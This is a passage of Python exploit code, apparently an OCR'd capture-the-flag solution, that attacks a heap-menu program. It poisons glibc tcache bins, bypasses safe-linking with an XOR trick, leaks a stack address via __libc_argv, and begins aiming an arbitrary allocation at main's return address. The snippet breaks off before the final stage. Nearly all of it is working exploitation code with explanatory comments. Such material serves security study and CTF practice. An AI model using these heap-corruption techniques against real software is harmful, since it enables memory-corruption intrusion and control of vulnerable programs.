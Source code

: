 ```python
# which will be our target; when we allocate off the tcache list, malloc will return this target address

vuln_tcache = heap_base + 0x43FB0 # this is the first address after the size of the first tcache chunk, overwritable with index 2
print("tcache address: " + hex(vuln_tcache))
target = libc.symbols["__libc_argv"] - 0x10 # this contains an address on the stack, which can leak to use for further targeting. go back 0x10 so as not to wipe the data we want to read
print("target address: " + hex(target))
safe_link_addr = target ^ (vuln_tcache >> 12) # not-so-safe linking protection bypass

payload = b"A"*0xf98
payload += p64(0x41) # note once the bins are in the tcache, they are 0x20 smaller than they were before
payload += p64(safe_link_addr)
edit(3, payload)

# allocate out of the tcache bin, corruptng it
create(5, 0x30, b"removefirsttcache")
create(6, 0x30, b"controllocation!") # this 'permit' will be allocated at the address we specified above

data = show(6)
data = u64(data[-6:].ljust(8,b'\x00'))
print('leaked stack: ' + hex(data))
predicted_main_ret = data - 0x120
print('main ret: ' + hex(predicted_main_ret))

create(7, 0xc10, b"fourthlargechunk") # just to clean out the unsorted bin - this is the size of the bin - 0x10, and results in the bin being fully allocated back on the heap
# we do this because its size is bigger than the tcache bins we want to create next, which will likely mean any allocations would have gotten carved out of this bin instead

# first of the new tcache bins - still in the heap at this point
create(8, 0xbc8, b"fifthlargechunk")
payload = b"fifthlargechunk"
payload += b"C"*(0xbc8 - len(payload))
payload += p64(0x421) # size of the bin we are targeting, 0x400 + 0x20
edit(8, payload)

# second new bin, and also it pushes the previous into the tcache
create(9, 0xbd8, b"sixthlargechunk")
payload = b"sixthlargechunk"
payload += b"D"*(0xbd8 - len(payload))
payload += p64(0x421)
edit(9, payload)

# this will push the second bin into the tcache bin 0x400, with the two linked
create(10, 0x1000, b"seventhlargechunk")
  
# targeting for our second arbitrary allow - the offset is calculated by the head of the tcache bin - heap base
vuln_tcache = heap_base + 0x87BF0
print("new vuln tcache: " + hex(vuln_tcache))
target = predicted_main_ret - 0x8
print("target: " + hex(target))
safe_link_addr = target ^ (vuln_tcache >> 12)

# load in the target
payload = b"sixthlargechunk"
payload += b"D"*(0xbd8 - len(payload))
payload += p64(0x401) # 0x20 smaller than 0x420
payload += p64(safe_link_addr)
```